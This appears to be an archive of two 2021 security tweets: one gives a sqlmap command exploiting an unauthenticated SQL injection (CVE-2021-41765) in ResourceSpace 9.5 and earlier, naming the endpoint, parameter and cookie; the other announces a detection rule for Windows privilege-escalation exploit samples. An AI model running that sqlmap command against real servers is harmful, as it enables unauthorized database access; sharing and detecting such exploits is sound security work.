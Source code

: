 
# a_lneylan
**https://twitter.com/a_lneylan/status/1463693972480704520 _at 2021-11-25 02:20:11_**
<blockquote>
CVE-2021-41765 ResourceSpace unauthorized SQL injection

ResourceSpace &lt;= 9.5

sqlmap --cookie 'upload_share_active=1' -u "http://127.0.0.1/pages/edit_fields/9_ajax/add_keyword.php?k=abcd" -p k --level=5 --risk3 --dbs --mysql

#vulnerability #infosec #BugBounty #bugbountytips
</blockquote>


<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>133</code></td>
<td>Favorites: <code>361</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1463486973885169666 _at 2021-11-24 12:37:39_**
<blockquote>
Within the 48h since our rule for CVE-2021-41379 Windows LPE 0day exploit codes is active, we've noticed 30 different samples with more and less AV detection coverage

I you've found more, please let me know

rule info with links to each sample
https://t.co/SqUFOHvV1j https://t.co/Bz8dqOB5qV
</blockquote>

* https://valhalla.nextron-systems.com/info/rule/EXPL_Windows_InstallerFileTakeOver_CVE_2021_41379_Nov21_1

<table><tr>